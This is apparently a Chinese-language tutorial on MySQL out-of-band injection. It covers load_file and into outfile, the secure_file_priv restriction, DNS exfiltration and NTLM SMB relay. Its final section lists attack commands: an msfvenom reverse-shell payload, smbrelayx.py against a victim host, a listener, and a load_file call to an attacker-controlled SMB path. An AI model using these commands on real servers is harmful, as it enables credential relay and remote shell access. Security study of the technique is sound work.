



这篇文章主要讲关于mysql的带外注入,主要利用的函数为load_file()和select … into outfile/dumpfile还有SMB服务之类的注入
那什么是带外通道注入呢?
带外通道攻击主要是利用其他协议或者渠道从服务器提取数据. 它可能是HTTP（S）请求，DNS解析服务，SMB服务，Mail服务等.
限制
在MySQL中，存在一个称为secure_file_priv的全局系统变量。 该变量用于限制数据的导入和导出操作
例如SELECT … INTO OUTFILE语句和LOAD_FILE（）
- 首先不用多说,这些函数是需要绝对路径的
- 如果
secure_file_priv变量为空那么直接可以使用函数,如果为null是不能使用 - 但在mysql的5.5.53之前的版本是默认为空,之后的版本为null,所有是将这个功能禁掉了

DNS注入
|
|

DNS解析站点:CEYE
SMB Relay 注入攻击
What is SMB relay
在谈SMBRELAY之前我们先看看下面的一段文档
Dominique Brezinski dominique.brezinski@CyberSafe.COM对外
发布了一份关于Windows NT身份验证机制脆弱性的文档
假设有主机B与A
(1) A向B发起连接请求
(2) B向A发送挑战(一组随机数据，8字节)
(3) A用源自明文口令的DESKEY对挑战进行标准DES加密得到响应，并发往B
(4) B从SAM中获取A的LM Hash、NTLM Hash，计算出DESKEY，并对前面发往A的挑战进
行标准DES加密
(5) 如果(4)中计算结果与A送过来的响应匹配，A被允许访问B
现在假设一个攻击者C卷入其中
(1) C向B发起连接请求
(2) B向C发送挑战D(一组随机数据)
(3) C等待A向B发起连接请求
(4) 当A向B发起连接请求时，C伪造成B向A发送挑战D
(5) A用源自明文口令的DESKEY对挑战D进行标准DES加密得到响应E，并发往B
(6) C截获到响应E，将它做为针对(2)中挑战D的响应发往B，并声称自己是A
(7) B从SAM中获取A的LM Hash、NTLM Hash，计算出DESKEY，并对挑战D进行标准DES
加密
(8) 如果(7)中计算结果与C送过来的响应匹配，C被允许以A的身份访问B。
###攻击流程

关于SMB relay攻击窃取NTML与shell请看这篇文章SMB Relay Demystified and NTLMv2 Pwnage with Python
步骤:
- 首先生成一个反向shell:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=攻击机ip LPORT=攻击机监听端口 -f exe > reverse_shell.exe - 运行smbrelayx，指定被攻击者和生成的反向shell，等待连接。
smbrelayx.py -h 被攻击者ip -e 反向shell文件位置 - 使用模块multi/handler。侦听攻击机ip,攻击机监听端口
- 在MySQL Server上运行如下的代码，则会产生shell。相当于访问攻击机的smb服务,但实际上是窃取了mysql_server的身份
select load_file(’\\攻击机ip\aa’);